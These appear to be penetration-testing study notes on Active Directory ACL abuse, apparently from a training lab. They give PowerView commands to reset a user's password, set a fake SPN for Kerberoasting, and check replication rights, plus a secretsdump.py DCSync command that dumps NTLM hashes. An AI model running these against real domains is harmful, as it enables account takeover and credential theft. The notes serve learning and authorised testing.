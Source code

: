 ```PowerShell

# Investigate group nesting
Get-DomainGroup -Identity "<group name>" | select memberof
```
### Specific ACE Attacks
![[Pasted image 20241210125811.png]]

**`ForceChangePassword`**
This gives us the right to reset a user's password without knowing their password. Note that this is destructive.
```PowerShell
# Create a PSCredential object for our user
$SecPassword = ConvertTo-SecureString '<user pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<our user>', $SecPassword) 

# Create secure string object for the user we intend to change
$newPassword = ConvertTo-SecureString '<new pass>' -AsPlainText -Force

# Change the password using PowerView
Import-Module .\PowerView.ps1
Set-DomainUserPassword -Identity <user> -AccountPassword $newPassword -Credential $Cred -Verbose
```
**`GenericWrite`**
Allows us to write to any unprotected attribute on an object. If we have access over a user, we can give them an SPN and perform a Kerberoasting attack. If it's over a group, we can add ourselves to that group or another security principle to the given group. Lastly, if this is over a machine, we can perform a resource based delegation attack.
```PowerShell
# Setting a fakse SPN
Set-DomainObject -Credential $Cred -Identity <user> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
From here we just Kerberoast the user.

**`AddSelf`**
These are the security groups we can add ourselves to.

**`GenericAll`**
Grants full owner over an object. Same attacks as `ForceChangePassword` and `GenericWrite`. If LAPS is used in the environment, we can read the LAPS password and get local admin access on the machine.

**Important**
Make sure to clean up after each attack. Any changes that were made should be undone.
### DCSync
DCSync allows us to steal the AD password database by using the built-in `Directory Replication Service Remote Protocol`. This is used by DCs to replicate data. We'll need to replicate data with the `DS-Replication-Get-Changes-All` extended right, enabled by default for Domain and Enterprise Admins.
```PowerShell
# Check domain membership
Get-DomainUser -Identity <user>  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

# Check rights
$sid = "<user sid>"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

# Extract NTLM Hashes and keys from Linux using credentials
secretsdump.py -outputfile <filename> -just-dc <domain>/<user>@<Domain controller>
# -just-dc-ntlm for only NTLM hashes
# -just-dc-user <user> for a specific user
# -user-status helps to see if users are disabled too
```